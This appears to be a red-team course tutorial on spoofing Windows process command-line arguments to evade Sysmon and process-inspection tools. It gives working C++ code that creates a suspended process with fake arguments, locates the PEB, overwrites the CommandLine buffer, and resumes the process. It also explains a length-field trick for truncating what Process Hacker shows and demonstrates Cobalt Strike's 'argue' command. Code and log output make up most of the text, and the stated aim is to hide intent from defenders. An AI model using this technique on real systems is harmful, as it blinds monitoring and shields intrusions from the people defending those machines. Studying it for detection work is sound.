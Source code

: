 Processes can be started with command line arguments.  For instance, if we do:

```
C:\>notepad C:\Windows\System32\WindowsCodecsRaw.txt
```

Notepad will launch and open the specified file.  Logging tools and process inspection tools can read these arguments, as they are stored in the Process Environment Block (PEB) of the process itself.
  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/cmdline/notepad-default.png)


However, there are plenty of times where we may want to obscure our command line arguments to hide our true intent or mislead defenders.  This can be done using the following high-level steps:

-   Create a process with "fake" arguments (these are the arguments you want to get logged) in a suspended state.
-   Reach into the PEB and find the RTL_USER_PROCESS_PARAMETERS.
-   Overwrite the command line arguments in this structure with the actual arguments you want executed.
-   Resume the process.  When the process resumes, it executes the new arguments.

Create the target process with the fake arguments with the CREATE_SUSPENDED flag.

```c++
#include <iostream>
#include <Windows.h>

int main()
{
    // Create the process with fake args
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    WCHAR fakeArgs[] = L"notepad totally-fake-args.txt";

    if (CreateProcess(
        L"C:\\Windows\\System32\\notepad.exe",
        fakeArgs,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        L"C:\\",
        &si,
        &pi))
    {
        printf("Process created: %d", pi.dwProcessId);
    }
}
```

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/cmdline/fake-args.png)


Next, we need to use the native NtQueryInformationProcess API to query the process and populate a PROCESS_BASIC_INFORMATION struct.  One of the properties on this struct is the base address of the PEB.  For that, we need the **typedef** for the function.

```c++
#include <iostream>
#include <Windows.h>
#include <winternl.h>

typedef NTSTATUS(*QueryInformationProcess)(IN HANDLE, IN PROCESSINFOCLASS, OUT PVOID, IN ULONG, OUT PULONG);
```

  

Resolve the location of the API from ntdll.dll.

```c++
// Resolve the location of the API from ntdll.dll
HMODULE ntdll = GetModuleHandle(L"ntdll.dll");
QueryInformationProcess NtQueryInformationProcess = (QueryInformationProcess)GetProcAddress(ntdll, "NtQueryInformationProcess");
```

  

Then we can call it.

```
// Call NtQueryInformationProcess to read the PROCESS_BASIC_INFORMATION
PROCESS_BASIC_INFORMATION pbi;
DWORD length;

NtQueryInformationProcess(
    pi.hProcess,
    ProcessBasicInformation,
    &pbi,
    sizeof(pbi),
    &length);
```

  

Read the PEB using ReadProcessMemory.

```
// With the PEB base address, we can read the PEB structure itself
PEB peb;
SIZE_T bytesRead;

ReadProcessMemory(
    pi.hProcess,
    pbi.PebBaseAddress,
    &peb,
    sizeof(PEB),
    &bytesRead);
```
  

Now from the PEB, we have the location of the ProcessParameters.  Read those next.

```
// Read the Process Parameters
RTL_USER_PROCESS_PARAMETERS rtlParams;

ReadProcessMemory(
    pi.hProcess,
    peb.ProcessParameters,
    &rtlParams,
    sizeof(RTL_USER_PROCESS_PARAMETERS),
    &bytesRead);
```
  

Craft the new arguments and write them into the CommandLine buffer.

```
// Craft new args and write them into the command line buffer
WCHAR newArgs[] = L"notepad C:\\Windows\\System32\\WindowsCodecsRaw.txt";
SIZE_T bytesWritten;

WriteProcessMemory(
    pi.hProcess,
    rtlParams.CommandLine.Buffer,
    newArgs,
    sizeof(newArgs),
    &bytesWritten);
```

  

Finally, resume the process.

```
ResumeThread(pi.hThread);
```

  

Notepad will now open WindowsCodecsRaw.txt, but Sysmon has recoded the fake args.

```shell
Process Create:
ProcessId: 7056
Image: C:\Windows\System32\notepad.exe
CommandLine: notepad totally-fake-args.txt
CurrentDirectory: C:\
```

However, if we inspect it with Process Hacker, we see something rather curious.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/cmdline/notepad-spoofed-partial.png)

It's the path to the real file and it's truncated.  So what's happening here?

First, Process Hacker provides point-in-time data.  It will re-read the PEB each time we close and re-open the properties window for a process.  So logically, it's now reading the new args we wrote into the PEB.

Second, the data within this buffer is actually a **UNICODE_STRING** which looks something like this:

```c++
struct UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
}
```

You can see that it has a Buffer (holds the actual data) and a Length (the length of the data).  When the process was created, the Length is **58** (_notepad totally-fake-args.txt_), but the new args (_notepad C:\\Windows\\System32\\WindowsCodecsRaw.txt_) has a length of **96**.  We are updating the content of the buffer, but not the length field; and if you read 58 bytes of the new args, it takes you as far as highlighted in bold: _**notepad C:\\Windows\\System32\\W**indowsCodecsRaw.txt_.

Process Hacker, Process Explorer and possibly others only read up to the value given by this field, so we can trick them by intentionally making it smaller, thus truncating the string at a strategic point (e.g. in this instance, what if it only showed "notepad" and not the path...).  _This is left as an exercise to the reader._

Command Line arg spoofing is controlled in Cobalt Strike with the `argue` command.

```shell
beacon> help argue
Use: argue [command] [fake arguments]
     argue [command]
     argue

Spoof [fake arguments] for [command] processes launched by Beacon.
This option does not affect runu/spawnu, runas/spawnas, or post-ex jobs.

Use argue [command] to disable this feature for the specified command.

Use argue by itself to list programs with defined spoofed arguments.
```

One thing to note about the implementation is that it also does not adjust the length field or allocate new memory, so the fake args should be as long, or longer than the real ones.

Let's start with a baseline:

```shell
beacon> shell whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Group used for deny only                          
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192  
```

  

Because the shell command was used here, Sysmon logs the creation of cmd.exe with the associated command line arguments.

```shell
Process Create:
ProcessId: 5096
Image: C:\Windows\System32\cmd.exe
CommandLine: C:\Windows\system32\cmd.exe /C whoami /groups
```

  

If we still wanted to run whoami via cmd, but without it appearing on the command line, we could do:

```shell
beacon> argue C:\Windows\system32\cmd.exe /c ping 127.0.0.1 -n 10
[*] Tasked beacon to spoof 'C:\Windows\system32\cmd.exe' as '/c ping 127.0.0.1 -n 10'

beacon> shell whoami /groups
```

We get the same output, but Sysmon logged it as:

```
Process Create:
ProcessId: 2588
Image: C:\Windows\System32\cmd.exe
CommandLine: C:\Windows\system32\cmd.exe /c ping 127.0.0.1 -n 10
```

Command Line spoofing is not a silver bullet, as in this case a process creation event for whoami.exe was still created.  The technique is much more effective when running commands that don't spawn additional processes.